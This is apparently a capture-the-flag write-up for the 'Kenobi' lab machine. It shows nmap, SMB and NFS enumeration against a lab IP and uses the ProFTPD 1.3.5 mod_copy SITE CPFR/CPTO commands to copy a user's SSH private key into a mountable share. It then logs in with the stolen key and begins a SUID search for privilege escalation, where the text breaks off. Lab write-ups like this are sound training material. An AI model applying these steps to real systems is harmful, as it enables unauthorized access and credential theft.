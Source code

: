 ```yaml
---
description: Recon
---
```


# Kenobi

```
nmap -sV -sC --script vuln -oN kenobi.nmap <IP>
```

we see proftp running ; check web in browser http \<ip> nothing there just starears image

run this to scan for samba shares

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.140.50
```

to check the shares

```
smbclient //10.10.140.50/anonymous
```

Download those file (run this under the priv command)

```
wget <filename>
```

we see port 111 has nfs running so we run script

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.140.50
```

we se /var mount there

\---------------------------------------------------------------------------------------------------------------------

From nmap we know proftpd is runnning on 1.3.5&#x20;

So we `searchsploit proftpd 1.3.5` we get 4 exploits

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption><p>Search sploit output</p></figcaption></figure>

The mod\_copy module implements SITE CPFR (copy from)and SITE CPTO (copy to)commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

SITE CPFR /home/kenobi/.ssh/id\_rsa

SITE CPTO /var/tmp/id\_rsa

We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

Lets mount the /var/tmp directory to our machine

<pre><code><strong>Lets mount the /var/tmp directory to our machine
</strong>
mkdir /mnt/kenobiNFS
mount 10.10.140.50:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
</code></pre>

then

```
cp /mnt/kenobiNFS/tmp/id_rsa .
```

```
sudo chmod 600 id_rsa 
```

```
ssh -i id_rsa kenobi@10.10.140.50
```

\---------------------------------------Gotccess------------------------------------------------------------------------------------------------------------PrivESC--------------------------------------------------------------------

SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.

To search the a system for these type of files run the following: f

`find / -perm -u=s -type f 2>/dev/null`

we find menu is out of ordinary so type menu in command and run

Strings is a command on Linux that looks for human readable strings on a binary.





